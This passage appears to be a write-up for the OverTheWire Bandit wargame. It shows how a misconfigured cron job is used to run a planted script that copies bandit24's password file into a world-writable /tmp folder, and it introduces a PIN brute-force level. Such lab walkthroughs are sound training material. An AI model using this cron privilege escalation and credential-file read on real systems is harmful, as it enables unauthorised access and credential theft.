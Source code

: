 ```bash
cd /etc/cron.d/
cat cronjob_bandit24
cat /usr/bin/cronjob_bandit24.sh
```

it has different bash file

```bash
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
if [ "$i" != "." -a "$i" != ".." ];
then
echo "Handling $i"
owner="$(stat --format "%U" ./$i)"
if [ "${owner}" = "bandit23" ]; then
timeout -s 9 60 ./$i
fi
rm -f ./$i
fi
done
```

```bash
mkdir /tmp/har3
chmod 777 /tmp/har3
cd /tmp/har3
```

create a own bash file `nano get.sh` ,`ctrl+o` to save , `ctrl+x` to exit

```bash
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/har3/passwd.txt
```

after creating bash ,enable execute previlege by `chmod` (change_mode) commandd

```bash
chmod 700 get.sh
cp get.sh /var/spool/bandit24/foo
ls /tmp/har3/
cat /tmp/har3/passwd.txt
```

---

#### **Level24:**

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
